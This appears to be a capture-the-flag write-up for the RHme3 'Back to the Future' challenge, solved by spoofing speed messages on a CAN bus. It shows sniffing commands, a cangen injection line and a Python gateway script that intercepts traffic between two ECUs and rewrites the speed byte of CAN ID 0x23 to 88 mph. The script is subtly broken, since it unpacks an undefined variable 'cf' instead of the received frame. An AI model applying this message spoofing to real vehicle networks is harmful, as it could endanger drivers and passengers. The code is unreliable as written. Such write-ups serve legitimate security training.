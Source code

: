 # [Back to the Future](https://rhme.riscure.com/3/challenge?id=14)

Controller Area Network - 250pts

## Challenge text

Our intelligence suggests that the DeLorean we previously recovered is capable of time travel.
According to the documents in our possession the time travel functionality is activated as soon as a specific ECU within the vehicle maintains a velocity of exactly 88 miles per hour for at least a few seconds. We rely on your CAN bus expertise to trick the time-travel ECU into thinking it is travelling at the right speed; again, the vehicle dashboard we restored should be of use.

Best of luck.

The Dashboard app was available during the CTF.

Challenge developed by Argus Cyber Security.

## Solution

### Solution overview

The solution to this challenge involves identifying and rewriting CAN packets that indicate speed.  A CAN bridge will be needed to ensure that all packets are intercepted and rewritten.

### Preparation

If you haven't done so already, follow the [Beaglebone Black CAN preparation](../Preparation/BBB_CAN_setup.md) guide to get ready for working with CAN bus.

Make the following connections:
* For now, connect the two ECUs on the RHme3 board using jumpers.  We'll remove these later to separate the two channels.
* Connect one of the CAN transcievers on the Beaglebone Black to the RHme3 ECUs using twisted pair wiring.

![Single CAN Hookup](../Images/can_hookup_single.jpg)

Determine the serial port used for RHme3 board, then start up the Dashboard app:

	> cd rhme3dash-master; dashboard.py COM42
	$ cd rhme3dash-master; dashboard.py /dev/ttyUSB0

### Analysis

A quick analysis using cansniffer on the Beaglebone Black shows that the second data byte of CAN ID 23 seems to follow the movement of the dashboard speedometer.  In this case, 0x24 is 36 mph.

	$cansniffer -c can0
	23  00 24 08 02 20

Let's attempt to rewrite this as 88 mph (0x58) and feed it back using cangen:

	$ cangen -I 23 -L 5 -D 0058080220 -g 10 -x can0

This brings the speed up to 88 mph on the dashboard, but packets indicating lower speeds keep bringing it back down into the 30s of mph.  This confirms that we're using the right CAN ID and byte, but we need to do something about the lower speed packets that keep the indicated speed from being consistent.

Hypothesis: The two ECUs on the RHme3 board are acting as independant devices that are communicating with each other.  Maybe we can wedge a gateway between them, and use the gateway to intercept and rewrite any packets with CAN ID 23.

Make the following connections:
* Disconnect the two ECUs on the RHme3 board by removing the jumpers.
* Connect both of the CAN transcievers on the Beaglebone Black to the RHme3 ECUs using twisted pair wiring.  The connections should create two independant CAN buses: can0 on the Beaglebone Black connected to channel 1 on the RHme3 board, and can1 connected to channel 2.

![Double CAN Hookup](../Images/can_hookup_double.jpg)

With the two channels separated from each other, traffic goes quiet.  With the use of candump, temporarily jumpering the two channels to create bursts of traffic, and monitoring each channel individually, the originating channel of CAN ID 23 can be determined as channel 1.

	$ candump -L can0
	$ candump -L can1

### Attack

The following Python3 script can be run on the BBB to pass all traffic from channel 1 to channel 2, and rewrite all packets with CAN ID 23 for 88 mph.

	#!/usr/bin/python3

	import socket
	import struct
	import sys

	s_in = socket.socket(socket.AF_CAN, socket.SOCK_RAW, socket.CAN_RAW)
	s_out = socket.socket(socket.AF_CAN, socket.SOCK_RAW, socket.CAN_RAW)
	s_in.bind((sys.argv[1],))
	s_out.bind((sys.argv[2],))

	while True:
		# Get a packet
		frame,addr = s_in.recvfrom(16)
		id,dlc,data = struct.unpack("=IB3x8s",cf)
		data = bytearray(data[:dlc])

		# If the packet is ID 0x23, rewrite the speed byte
		if (id == 0x23):
			data[1] = 0x58
			frame = struct.pack("=IB3x8s",0x23,dlc,data)

		# Send it to the other ECU channel
		try:
			s_out.send(frame)
		except socket.error:
			print('Error sending CAN frame')

Run the script as follows:

	$ python3 can-gate.py can0 can1

This pegs the dashboard at 88 mph and displays the flag.

![Back to the Future Dashboard with FLAG](../Images/future_dashboard.png)
